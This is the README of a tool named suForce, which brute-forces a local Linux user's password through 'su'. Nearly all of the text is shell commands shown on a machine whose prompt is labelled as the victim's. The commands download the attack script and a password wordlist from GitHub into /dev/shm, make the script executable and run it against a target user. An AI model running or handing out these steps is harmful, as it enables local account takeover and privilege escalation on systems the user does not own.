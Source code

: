 # suForce

**su Brute Force - User Password**

![](/screenshot.png)

- <kbd>Download</kbd>

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ chmod +x suForce.sh
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
